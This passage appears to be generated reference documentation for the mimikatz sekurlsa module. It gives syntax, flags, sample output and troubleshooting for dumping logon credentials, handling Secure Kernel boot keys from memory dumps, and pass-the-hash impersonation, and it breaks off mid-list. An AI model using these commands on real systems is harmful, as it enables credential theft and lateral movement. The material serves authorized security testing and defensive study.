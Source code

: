 ### `sekurlsa::logonPasswords`
- **Purpose:** Aggregate the output of every registered sekurlsa provider for all logon sessions.【F:mimikatz/modules/sekurlsa/kuhl_m_sekurlsa.c†L151-L154】
- **Syntax:** `sekurlsa::logonPasswords`
- **Example usage/output:**
  ```mimikatz
  mimikatz # sekurlsa::logonPasswords
  Authentication Id : 0 ; 123456
  msv : ...
  tspkg : ...
  wdigest : ...
  kerberos : ...
  ```
- **Potential errors & fixes:** Because this loops through all providers, any failure mentioned in individual sections may surface here. Re-run after resolving underlying provider issues (e.g., architecture mismatches or missing packages).

### `sekurlsa::bootkey`
- **Purpose:** Manage the Secure Kernel boot key cache to support isolated credential decryption.【F:mimikatz/modules/sekurlsa/kuhl_m_sekurlsa_sk.c†L155-L210】
- **Syntax:**
  - `sekurlsa::bootkey /flush`
  - `sekurlsa::bootkey /new:<32-byte-hex>`
  - `sekurlsa::bootkey /raw:C:\dumps\memory.bin`
  
   **Flags:**
  * `/flush` — Clears cached candidate keys and resets the current `IumMkPerBoot` value, which you should do when a previous attempt populated the cache with stale data.【F:mimikatz/mimikatz/modules/sekurlsa/kuhl_m_sekurlsa_sk.c†L155-L161】
  * `/new:<hex>` — Injects a new 32-byte boot key (hex-encoded) and clears the cache so subsequent decryptions use the supplied value; use this when you already recovered the correct boot key from another source.【F:mimikatz/mimikatz/modules/sekurlsa/kuhl_m_sekurlsa_sk.c†L162-L170】
  * `/raw:<path>` — Scans a raw memory image or dump for additional boot key candidates, automatically appending any finds to the cache; handy when you captured RAM separately and need more key guesses.【F:mimikatz/mimikatz/modules/sekurlsa/kuhl_m_sekurlsa_sk.c†L173-L185】

  
- **Example usage/output:**
  ```mimikatz
  mimikatz # sekurlsa::bootkey /raw:C:\dumps\ram.bin
    > SecureKernel stream found in minidump (32768 bytes)
    4 candidate keys found
  mimikatz # sekurlsa::bootkey /flush
  ```
- **Potential errors & fixes:** `No key?` indicates the tool could not read or parse key material—verify the raw file path and permissions.【F:mimikatz/modules/sekurlsa/kuhl_m_sekurlsa_sk.c†L155-L210】 `SkpEncryptionWorker(decrypt)` errors mean the candidate key failed; supply a different key or re-run `/raw` against a higher quality memory capture.【F:mimikatz/modules/sekurlsa/kuhl_m_sekurlsa_sk.c†L195-L210】

### `sekurlsa::pth`
- **Purpose:** Perform pass-the-hash/key on an existing or new logon session and optionally impersonate the resulting token.【F:mimikatz/modules/sekurlsa/kuhl_m_sekurlsa.c†L883-L1005】
- **Syntax:**
  ```
  sekurlsa::pth /user:<name> /domain:<fqdn> /ntlm:<hash> [/aes128:<hex>] [/aes256:<hex>] [/run:<program>] [/impersonate] [/luid:<value>]
  ```
  * **Flags/arguments:**
  * `/luid:<value>` — Target an existing logon session by LUID; use this when you know the session you want to modify and do not want to spawn a new process.【F:mimikatz/mimikatz/modules/sekurlsa/kuhl_m_sekurlsa.c†L894-L961】
  * `/user:<name>` and `/domain:<name>` — Required together when you want to create a new net-only logon that will be patched; without them, the command warns about missing arguments.【F:mimikatz/mimikatz/modules/sekurlsa/kuhl_m_sekurlsa.c†L901-L915】